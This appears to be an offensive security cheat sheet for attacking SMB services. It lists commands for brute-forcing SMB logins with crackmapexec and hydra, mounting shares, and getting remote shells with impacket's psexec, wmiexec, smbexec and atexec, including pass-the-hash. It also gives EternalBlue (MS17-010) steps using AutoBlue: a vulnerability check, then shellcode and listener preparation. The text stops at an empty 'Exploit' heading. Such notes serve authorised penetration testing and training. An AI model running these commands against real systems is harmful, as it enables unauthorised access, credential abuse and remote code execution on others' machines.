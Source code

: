 #### Brute force

```
crackmapexec smb <IP> -u <USERS_LIST> -p <PASSWORDS_LIST>
hydra -V -f -L <USERS_LIST> -P <PASSWORDS_LIST> smb://<IP> -u -vV
```

#### Mount a SMB share

```
mkdir /tmp/share
sudo mount -t cifs //<IP>/<SHARE> /tmp/share
sudo mount -t cifs -o 'username=<USER>,password=<PASSWORD>'//<IP>/<SHARE> /tmp/share

smbclient //<IP>/<SHARE>
smbclient //<IP>/<SHARE> -U <USER>
```

#### Get a shell

```
psexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
psexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

wmiexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
wmiexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

smbexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP>
smbexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>

atexec.py <DOMAIN>/<USER>:<PASSWORD>@<IP> <COMMAND>
atexec.py <DOMAIN>/<USER>@<IP> -hashes :<NTHASH>
```

#### EternalBlue (MS17-010)

```
https://github.com/3ndG4me/AutoBlue-MS17-010
```

##### Check if vulnerable

```
python eternal_checker.py <IP>
```

##### Prepare shellcodes and listeners

```
cd shellcode
./shell_prep.sh
cd ..
./listener_prep.sh
```

##### Exploit
